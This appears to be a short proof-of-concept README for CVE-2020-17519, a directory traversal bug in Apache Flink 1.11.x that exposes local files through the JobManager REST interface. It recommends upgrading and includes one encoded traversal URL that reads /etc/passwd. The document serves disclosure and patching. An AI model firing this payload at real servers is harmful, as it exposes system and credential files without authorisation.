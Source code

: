 # CVE-2020-17519 
Apache-Flink-1.11.0-Arbitrary-File-Read-Directory-Traversal

A change introduced in Apache Flink 1.11.0 (and released in 1.11.1 and 1.11.2 as well) allows attackers to read any file on the local filesystem of the 
JobManager through the REST interface 
of the JobManager process. Access is restricted to files accessible by the JobManager process.
All users should upgrade to Flink 1.11.3 or 1.12.0 if their Flink instance(s) are exposed

## POC

target.com/..%252f..%252f..%252f..%252f..%252f..%252f..%252f..%252f..%252f..%252f..%252f..%252fetc%252fpasswd

